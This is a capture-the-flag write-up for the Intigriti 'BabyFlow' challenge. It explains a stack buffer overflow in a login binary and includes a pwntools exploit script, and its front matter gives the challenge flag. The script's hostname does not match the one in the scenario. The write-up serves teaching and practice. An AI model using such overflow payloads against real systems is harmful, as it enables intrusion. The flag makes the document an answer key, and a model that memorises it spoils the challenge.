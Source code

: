 ```yaml
---
title: BabyFlow
category: 
  - Miscellaneous
  - "Binary Exploitation"
tags: 
completedDuringEvent: true
submitted: true
flag: INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
draft: false
---
```

## Scenario

> Does this login application even work?!
>
> `nc babyflow.ctf.intigriti.io 1331`

By CryptoCat

## Solution

The binary is a simple program that reads a password from the user and compares it to a hardcoded password. If the password is correct and the variable `v5` is non-zero, it prints the flag. The input buffer is 50 bytes long, and the variable `s` length is 44 bytes. We can overflow the buffer and overwrite the variable `v5` to a non-zero value to get the flag.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[44]; // [rsp+0h] [rbp-30h] BYREF
  int v5; // [rsp+2Ch] [rbp-4h]

  v5 = 0;
  printf("Enter password: ");
  fgets(s, 50, _bss_start);
  if ( !strncmp(s, "SuPeRsEcUrEPaSsWoRd123", 0x16uLL) )
  {
    puts("Correct Password!");
    if ( v5 )
      puts("INTIGRITI{the_flag_is_different_on_remote}");
    else
      puts("Are you sure you are admin? o.O");
    return 0;
  }
  else
  {
    puts("Incorrect Password!");
    return 0;
  }
}
```

To exploit this, we need to send a password that matches the hardcoded one and then add additional bytes to overflow the buffer and set `v5` to a non-zero value. We can use the `cyclic` function from the `pwntools` library to generate the necessary padding.

Here is a Python script to achieve this:

```py
from pwn import *

r = remote('irrorversible.ctf.intigriti.io', 1331)

r.recvuntil(b'Enter password: ')

password = b'SuPeRsEcUrEPaSsWoRd123'
payload = flat([
    password,
    cyclic(44 - len(password))
])

r.sendline(payload)

r.interactive()
```
